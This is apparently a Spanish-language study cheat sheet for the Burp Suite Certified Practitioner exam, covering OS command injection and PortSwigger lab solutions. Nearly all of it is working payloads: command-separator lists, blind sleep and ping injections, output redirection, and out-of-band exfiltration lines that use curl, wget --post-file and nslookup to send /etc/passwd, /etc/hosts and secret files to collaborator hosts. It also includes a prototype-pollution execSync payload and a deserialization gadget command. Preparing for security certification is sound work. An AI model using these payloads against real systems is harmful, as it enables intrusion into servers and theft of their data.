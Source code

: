 Lo que ya sabemos ejecución de comandos linux, windows. etc como inyección. 
### Feedback

> Use following command separation characters to _**identify**_ Operating System Command injection vulnerabilities.

Simple

```
|| -- %7C%7C -- double %257C%257C
; -- %3B -- Double %253B
&& -- %26%26 -- double %2526%2526
& 
|
EN LINUX: ox0a o \n

& ping -c 10 127.0.0.1 &

&&
 &
 ||
 |
 ;
 `
 '
 "
 0x0a
 \n


```

Blind

```
test%40test.com||sleep+5||
test%40test.com||ping+-c+5||
```

Write commands in accesible folder: /var/www/images/

```
whoami > /var/www/images/
https://0a2f008a032675868187b28600ba00d0.web-security-academy.net/image?filename=test.txt

* POST de feedback/submit - es lo mismo de arriba pero bien estructurado - attack
email=||whoami>/var/www/images/output.txt||&
* POST de feedback/submit 
||nslookup+whoami.BURP-COLLABORATOR.com||
```

Exifltrate data with out of band

```
||curl+`whoami`.00y7e29ks339nxuskhes4q429tfk3br0.oastify.com||
```

## Remote Command Execution 

> Remote code execution via server-side prototype pollution

```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```

## Exfiltrando datos como un pro: 

> ATENCIÓN: Si tienes la respuesta correcta con email=||curl+burp.oastify.com?c=`whoami`|| payload EN LOS LABS y no conoces ninguna otra - fallarás este paso en el examen. tengo un conocido que su primer intento de examen lo falló sólo por esa mondá. un  payload (que le funcionó en el laboratorio) y no funcionó en el examen. Por favor, aprende que puedes exfiltrar datos como parte de tu subdominio colaborador burp, como: 

```js
	nslookup -q=cname $(cat /home/carlos/secret).burp.oastify.com
	||wget --post-file /etc/hosts https://COLLAB.oastify.com||
```

	payload, incluso, si solo obtienes callbacks DNS.

#### EJEMPLOS UTILES PARA EL BSCP: 

---

```js
//posiblemente para un caso de deserializacion insegura. 

"``/usr/bin/wget --post-file /home/carlos/secret https://y54nvieai2tvgmz11xb2hj1pkgq9e12q.oastify.com``"

CommonsCollections7 'curl --data @/home/carlos/secret <your burp collaborator address>'

```

> BASH os command execution en el submit feedback posiblemente en la seccion de email, toca probar todos los demás endpoints centrandonos en un insertion point selected obvio. 

```shell
email=carlos@exam.net||curl+`whoami`.COLLABORATOR.net||
```

```js
||$(curl $(cat /home/carlos/secret).COLLABORATOR.com)||
```

> XML and OS Command execution

```js
<email>user16@exploit-server.net||$(curl $(cat /home/carlos/secret).COLLABORATOR.com)||</email>
```
## Labs

### 1. OS command injection, simple case

```js
//En product/stock POST - con el && encodeado a URL
productId=1&storeId=1%26%26whoami

//EXFILTRANDO DATA: 
productId=1&storeId=1%26%26curl+`cat%20/home/carlos/secret`.jyl0a5miw4l910i92yo38g9l0c63uuij.oastify.com
```

### 2. Blind OS command injection with time delays

```js
email=x||ping+-c+10+127.0.0.1||

||sleep+5||
//INYECCION -> ||sleep+5|| -> %7c%7csleep+5%7c%7c
email=test%40gmail.com%7c%7csleep+5%7c%7c
```

### 3. Blind OS command injection with output redirection

```js
email=||whoami>/var/www/images/output.txt||
//aceder al file ->
filename=output.txt

//EXFILTRAR DATA -> || == %7c%7c
email=test%40gmail.com%7c%7cwget+--post-file+/etc/hosts+https%3a//BURP-COLLAB%7c%7c

//DECODIFICADO SERIA ASI -> etc hosts pero lo podemos reemplazar facil por secret
//DE CARLOS -> /home/carlos/secret
email=test@gmail.com||wget --post-file /etc/hosts https://burp.collab.com||
```

### 4. Blind OS command injection with out-of-band interaction

```js
email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||

//Encodeado a URL 
||nslookup+7iqout66gs5xlo2xmm8rs4t9k0qren2c.oastify.com||
email=test%40gmail.com%7c%7cnslookup+COLLAB.com%7c%7c

//EXFILTRAR DATA || == %7c%7c
|| nslookup $(cat /home/carlos/secret).oastify.com || 
//o si nslookup restringido con CURL ->
||+curl+http%3a//COLLAB.com/$(pwd)+||
||+curl+http%3a//COLLAB.com/$(cat%20/home/carlos/secret)+||
```

### 5. Blind OS command injection with out-of-band data exfiltration

```js
email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||

//EXFILTRANDO MÁS INFORMACION UTIL
email=test@gmail.com||wget --post-file /etc/passwd https://COLLAB.com||
```

### 6. Admin Panel ImgSize command injection `carlos/secret`

```js
/admin-panel/admin_image?image=/blog/posts/50.jpg&ImageSize="200||nslookup+$(cat+/home/carlos/secret).<collaborator>%26"  
Or  
ImgSize="`/usr/bin/wget%20--post-file%20/home/carlos/secret%20https://collaborator/`"
```

Eso sería todo, con las soluciones del lab más el enfoque en exfiltrar data que le dí ya tenemos la base para si nos encontramos con un OS command injection darle duro y sin mente. 